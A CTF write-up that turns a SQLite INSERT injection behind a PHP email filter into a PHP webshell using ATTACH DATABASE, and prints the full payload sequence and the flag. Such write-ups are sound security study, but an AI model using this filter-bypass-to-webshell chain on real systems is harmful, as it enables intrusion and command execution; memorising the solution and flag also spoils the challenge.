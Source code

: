 ## Skills involved: SQL injection, filter bypass

I didn't have experience in SQLite, it was a sleepless night but I had a lot of fun with this one.

After downloading the source code, one simply can't miss the blatant SQL injection:
```php
public function subscribeUser($ip_address, $email)
{
  return $this->db->exec("INSERT INTO subscribers (ip_address, email) VALUES('$ip_address', '$email')");
}
```

From the Dockerfile I know that the file name of flag is randomized. This means that I at least need RCE (`cat /flag*`) from SQL injection - which I hadn't thought possible. I had to confirm with an admin that it was indeed possible.

I knew that I need a `');` to end the INSERT command, as in SQLite INSERT statements can only be followed by an upsert clause for unique fields which is not useful now. Unfortunately we have a PHP email filter and a semicolon doesn't seem like a valid character. Thanks to [this post](https://dimazarno.medium.com/bypassing-email-filter-which-leads-to-sql-injection-e57bcbfc6b17) we know that quotation marks can be added to the "local-part": `"');--"@a.b`.

Now we have another problem: the space character `%20` cannot be used in the email. There are [alternative space characters in SQLite](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) however. Of those characters, only `%0C` passes the PHP filter. Alternatively we can use `/**/` but it's significantly longer.

For the RCE part, it turned out I could create database files in SQLite with the `ATTACH DATABASE` command: `"');ATTACH'.php'AS/**/q;--"@c.d`. Unnecessary spaces are removed to make the command shorter.

For the next step I tried create a table: `"');CREATE/**/TABLE/**/q.r('s'text);--"@c.d`. But:

`PHP message: PHP Warning:  SQLite3::exec(): unknown database q in /www/Database.php on line 36`

So I had to include the attach phrase as well:
`"');ATTACH'.php'AS/**/q;CREATE/**/TABLE/**/q.r('s'text)--"@c.d`

The final step is to create the PHP payload: `<?=system('cat /flag*')?>`. We have 3 problems here:
- ' needs to be escaped - this is simple enough with ''
- The space character cannot be replaced with `%0C` - it took some research but we can use `char(32)` instead.
- The whole payload along with the ATTACH statement is too long as an email local-part - we can only use 64 letters. This made me think of splitting the payload into a number of queries.

My final payloads (replace all space character with `%0C` with Burp):
```
"');ATTACH'.php'AS q;CREATE TABLE q.r('s'text)--"@c.d
"');ATTACH'.php'AS q;INSERT INTO r VALUES('system(''cat')--"@c.d
"');ATTACH'.php'AS q;UPDATE r SET s=s||char(32)--"@c.d
"');ATTACH'.php'AS q;UPDATE r SET s=s||'/flag*'')?>'--"@c.d
"');ATTACH'.php'AS q;UPDATE r SET s='<?='||s--"@c.d
```

**FLAG: HTB{inj3ct3d_th3_tru7h}**

Remark: I could have researched faster by simply going to [Wikipedia](https://en.wikipedia.org/wiki/Email_address)

